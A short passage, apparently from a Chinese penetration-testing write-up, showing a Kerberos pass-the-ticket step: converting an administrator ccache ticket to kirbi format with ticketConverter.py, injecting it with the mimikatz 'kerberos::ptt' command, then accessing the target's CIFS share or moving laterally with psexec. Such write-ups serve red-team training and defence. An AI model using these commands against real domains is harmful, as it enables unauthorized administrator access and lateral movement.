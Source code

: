 [![](assets/1702372846-b50bb45d4903967feb6e0131c2c0b8f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123608-83b309d6-6bb1-1.png)

将生成的适合Linux使用的ccache格式转换为Windows的kirbi

```plain
py -3 .\ticketConverter.py .\administrator.ccache .\administrator.kirbi
```

[![](assets/1702372846-1962b6f307ad2da47f92938f9d1c7acc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123615-8814309a-6bb1-1.png)

通过mimikatz加载票据

```plain
kerberos::ptt C:\Python38\Scripts\administrator.kirbi
```

[![](assets/1702372846-a11c8df54fec783c5a3653c4a5286ad1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123621-8bb3e8d0-6bb1-1.png)

此时即可正式利用，可通过klist查看票据确实注入了。然后直接对目标的cifs进行dir操作，或通过psexec等横向手法横向即可。如下图所示：
